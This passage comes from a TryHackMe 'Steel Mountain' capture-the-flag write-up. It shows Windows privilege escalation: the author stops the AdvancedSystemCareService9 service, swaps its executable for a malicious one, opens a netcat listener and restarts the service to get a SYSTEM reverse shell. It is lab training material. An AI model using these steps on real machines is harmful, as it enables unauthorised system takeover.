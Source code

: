 ```console
sc stop AdvancedSystemCareService9
```

![Web 80 Index](/images/tryhackme_steel.mountain/p3.jpg){: width="1200" height="600"}

Then, I copied my Advanced.exe to the Advanced SystemCare directory and replaced the original ASCService.exe.

![Web 80 Index](/images/tryhackme_steel.mountain/p4.jpg){: width="1200" height="600"}

Next, I started a Netcat listener on my local machine to catch the reverse shell:

```console
nc -lvnp 4443
```

Finally, I restarted the service:

```console
sc start AdvancedSystemCareService9
```
As soon as the service started, I received a reverse shell with SYSTEM privileges.

What is the root flag?

![Web 80 Index](/images/tryhackme_steel.mountain/p7.jpg){: width="1200" height="600"}
